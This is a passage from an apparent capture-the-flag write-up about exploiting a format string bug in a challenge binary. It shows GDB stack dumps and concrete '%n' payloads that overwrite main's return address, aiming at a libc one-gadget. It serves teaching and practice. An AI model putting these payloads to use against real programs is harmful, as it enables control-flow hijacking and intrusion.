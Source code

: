 <span style="color:#2AA1B3">0x00007ffe010d4358</span>│+0x0038: <span style="color:#C01C28">0x00007f980b405d0a</span>  →  <span style="color:#585858"><b>&lt;__libc_start_main+234&gt; mov edi, eax</b></span>
<span style="color:#2AA1B3">0x00007ffe010d4360</span>│+0x0040: <span style="color:#A347BA">0x00007ffe010d4448</span>  →  <span style="color:#A347BA">0x00007ffe010d4358</span>  →  <span style="color:#C01C28">0x00007f980b405d0a</span>  →  <span style="color:#585858"><b>&lt;__libc_start_main+234&gt; mov edi, eax</b></span>
<span style="color:#2AA1B3">0x00007ffe010d4368</span>│+0x0048: 0x0000000100000000
</code></pre>

## Overwriting the Return Address

Now that there's a pointer to the return address on the stack, we can overwrite the return address with the second `fprintf`.
The pointer to the return address is at `rsp + 0x128`, which is the 42nd argument.
As a test, I put `%42c%42$n` for the second `fprintf` to write `42` to the lower four bytes of the return address.
After the call, GDB shows that we have successfully overwrote those bytes with 42, which is 0x2a in hex:

<pre><code><span style="color:#2AA1B3">0x00007ffc57b78de0</span>│+0x0000: <span style="color:#A2734C">&quot;%42c%42$n\n&quot;</span>   <span style="color:#005DD0"><b> ← $rsp</b></span>
<span style="color:#2AA1B3">0x00007ffc57b78de8</span>│+0x0008: 0x000a6e2433000a6e (&quot;<span style="color:#A2734C">n\n</span>&quot;?)
<span style="color:#2AA1B3">0x00007ffc57b78df0</span>│+0x0010: <span style="color:#C01C28">0x0000556b035b4290</span>  →  <span style="color:#585858"><b>&lt;__libc_csu_init+0&gt; push r15</b></span>
<span style="color:#2AA1B3">0x00007ffc57b78df8</span>│+0x0018: <span style="color:#C01C28">0x0000556b035b40a0</span>  →  <span style="color:#585858"><b>&lt;_start+0&gt; xor ebp, ebp</b></span>
<span style="color:#2AA1B3">0x00007ffc57b78e00</span>│+0x0020: <span style="color:#A347BA">0x00007ffc57b78f00</span>  →  0x0000000000000001
<span style="color:#2AA1B3">0x00007ffc57b78e08</span>│+0x0028: <span style="color:#26A269">0x0000556b03bb92a0</span>  →  0x00000000fbad2c84
<span style="color:#2AA1B3">0x00007ffc57b78e10</span>│+0x0030: <span style="color:#C01C28">0x0000556b035b4290</span>  →  <span style="color:#585858"><b>&lt;__libc_csu_init+0&gt; push r15</b></span><span style="color:#005DD0"><b> ← $rbp</b></span>
<span style="color:#2AA1B3">0x00007ffc57b78e18</span>│+0x0038: 0x00007f6b0000002a (&quot;<span style="color:#A2734C">*</span>&quot;?)
</code></pre>

Next, we have to calculate the one gadget address.
The closest libc pointer is the original return address of `main`, which is the 12th argument.
I therefore tried doing `%c%c%c%c%c%c%c%c%c%c%678156c%*c%42$n`.
The part before the `%*c` consumes 11 arguments and outputs 678166 bytes, which is the offset to the one gadget.
The `%*c` adds this to the original return address and the `%42$n` overwrites the return address with the result... except it didn't work.

After some debugging, I figured out that the format string was just too long.
It had to be at most 31 characters because the `inp` buffer is 32 characters long, and my payload is 36 characters.

![A screenshot of Discord messages between me and Aplet123.
kaiphait: "did you really have to put that length limit"
Aplet123: "yes"](/assets/posts/angstrom-noleek/limit.webp)
